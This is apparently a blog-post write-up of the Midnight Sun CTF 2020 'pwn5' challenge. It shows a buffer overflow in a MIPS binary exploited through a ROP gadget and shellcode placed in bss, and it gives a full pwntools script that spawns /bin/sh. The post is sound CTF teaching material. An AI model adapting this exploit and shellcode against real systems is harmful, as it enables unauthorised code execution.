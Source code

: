 ```yaml
---
layout: post
title: Midnight Sun CTF 2020 Quals - pwn5
---
```


> An homage to pwny.racing, we present... speedrun pwn challenges. These bite-sized challenges should serve as a nice warm-up for your pwning skills.
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
pwn5: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), statically linked,
for GNU/Linux 3.2.0, BuildID[sha1]=b1c60e54fa5e5029ba807ff7bf3e9741249e5a5e, stripped

Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
{% endhighlight %}

Challenge pwn5 is about exploiting simple buffer overflow in statically linked mipsel binary. Running binary on x86 system requires using qemu in user mode that allows executing non-native target executable through emulation.

To interact with binary we will use qemu:

{% highlight python %}
context.clear(log_level="info", arch="mips", os="linux")
elf = ELF("./pwn5")

io = process(["qemu-mipsel", "-g", "2223", "./pwn5"])
{% endhighlight %}

The idea for exploitation is to read shellcode to bss area and then execute it directly from there. In order to do that we need to launch scanf with the buffer pointing to bss area - that address should be stored in `a1`.

![code decompiled][decompiled_scanf]

We can jump to `0x00400758` that will move `v0` to `a1` thus we need control over `v0` register. That can be achieved by using following gadget:

{% highlight python %}
lw $v0, 0x20($sp) ; lw $ra, 0x2c($sp) ; jr $ra ; addiu $sp, $sp, 0x30
{% endhighlight %}

Using found gadget we can craft payload that will set `v0` with the address of bss area and jump to `0x00400758` that will follow with scanf and reading additional input.

{% highlight python %}
shellcode_addr = elf.bss(0x100)
payload = (
    b"A" * 64 +
    p32(elf.bss(0x200)) + # mock for s8
    p32(0x0046f27c) + #  : lw $v0, 0x20($sp) ; lw $ra, 0x2c($sp) ; jr $ra ; addiu $sp, $sp, 0x30
    b"B" * 0x20 +
    p32(shellcode_addr) +
    b"D" * 8 +
    p32(0x00400758) # .text:00400758                 move    $a1, $v0
)
io.sendline(payload)
{% endhighlight %}

Last step is to send payload that consists of the shellcode (it will be written into bss area) and address of the shellcode (it will overwrite return address at offest 348).

{% highlight python %}
mips_shellcode = asm("""
    xor $a1, $a1
    xor $a2, $a2

    li $a0, 0x4a18e0
    li $v0, 4011
    syscall 0xffff
    nop
""")

payload2 = (
    b"/bin/sh\x00" +
    mips_shellcode
)

payload2 += (
    b"\xcc" * (348 - len(payload2)) +
    p32(shellcode_addr + 8)
)

io.sendline(payload2)
{% endhighlight %}

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

context.clear(log_level="info", arch="mips", os="linux")
elf = ELF("./pwn5")

#io = process(["qemu-mipsel", "-g", "2223", "./pwn5"])
io = process(["qemu-mipsel", "./pwn5"])

io.recvuntil("data:\n")

shellcode_addr = elf.bss(0x100)
payload = (
    b"A" * 64 +
    p32(elf.bss(0x200)) + # mock for s8
    p32(0x0046f27c) + #  : lw $v0, 0x20($sp) ; lw $ra, 0x2c($sp) ; jr $ra ; addiu $sp, $sp, 0x30
    b"B" * 0x20 +
    p32(shellcode_addr) +
    b"D" * 8 +
    p32(0x00400758) # .text:00400758                 move    $a1, $v0
)
io.sendline(payload)

log.info("Shellcode addr 0x%x", shellcode_addr)

mips_shellcode = asm("""
    xor $a1, $a1
    xor $a2, $a2

    li $a0, 0x4a18e0
    li $v0, 4011
    syscall 0xffff
    nop
""")

payload2 = (
    b"/bin/sh\x00" +
    mips_shellcode
)

payload2 += (
    b"\xcc" * (348 - len(payload2)) +
    p32(shellcode_addr + 8)
)

io.sendline(payload2)

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/midnightsun/pwn5
[decompiled_scanf]: {{site.baseurl}}/ctf/2020-04-13-midnightsunctf-pwn5/decompiled_scanf.png
